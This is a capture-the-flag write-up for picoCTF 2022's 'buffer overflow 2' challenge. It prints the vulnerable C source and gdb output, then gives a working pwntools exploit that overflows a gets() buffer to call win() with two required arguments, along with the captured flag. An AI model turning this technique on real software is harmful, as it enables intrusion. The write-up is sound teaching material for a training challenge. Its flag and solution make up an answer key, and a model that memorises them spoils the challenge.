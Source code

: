 #pico2022 #binaryexploitation 

## Challenge:
```md
Control the return address and arguments
```

This challenge launches an instance.
```md
Control the return address and arguments This time you'll need to control the arguments to the function you return to! Can you get the flag from this [program](https://artifacts.picoctf.net/c/344/vuln)? You can view source [here](https://artifacts.picoctf.net/c/344/vuln.c). And connect with it using `nc saturn.picoctf.net 60541`
```

## Process:
Download the files.
```bash
curl -O https://artifacts.picoctf.net/c/344/vuln
curl -O https://artifacts.picoctf.net/c/344/vuln.c
```
#curl 

Looking at the source.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
#c 

Here I see the *win()* function and that it needs 2 arguments *0xCAFEF00D* and *0xF00DF00D*.
```c
...
  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}
...
```

Run *gdb* and find the overflow offset as well as find the *win()*  and *main()* functions.
```bash
gdb vuln
```
#gdb 

```
gdb-peda$ info function main
All functions matching regular expression "main":

Non-debugging symbols:
0x08049140  __libc_start_main@plt
0x08049372  main

gdb-peda$ info function win
All functions matching regular expression "win":

Non-debugging symbols:
0x08049296  win
```

```
gdb-peda$ run
Starting program: /home/jacob/docs/ctf/pico/2022/042_buffer_overflow_2/vuln
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter your string:
```

![[042_buffer_overflow_2.png]]


I wrote a script to send the payload.
```python
#!/usr/bin/env python3

from pwn import *

connect = remote("saturn.picoctf.net", 60541)
log.info("Starting buffer overflow")
connect.recvuntil(b":")
log.info("Creating payload")
payload = b"A" * 112
payload += p32(0x8049296) # win function address
payload += p32(0x8049372) # main function address
payload += p32(0xCAFEF00D) # arg1
payload += p32(0xF00DF00D) # arg2
log.info("Sending payload to the server")
connect.sendline(payload)
connect.recv()
connect.interactive()
```

Run the exploit.
```bash
python exploit.py
```
#python 

```
[+] Opening connection to saturn.picoctf.net on port 62483: Done
[*] Starting buffer overflow
[*] Creating payload
[*] Sending payload to the server
[*] Switching to interactive mode
\xf0\xfe\xcaAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04r\x93\x04
picoCTF{argum3nt5_4_d4yZ_b3fd8f66}Please enter your string:
```

And this gave me the flag.
```bash
echo "picoCTF{argum3nt5_4_d4yZ_b3fd8f66}" > flag.txt
```

**Flag: *picoCTF{argum3nt5_4_d4yZ_b3fd8f66}***
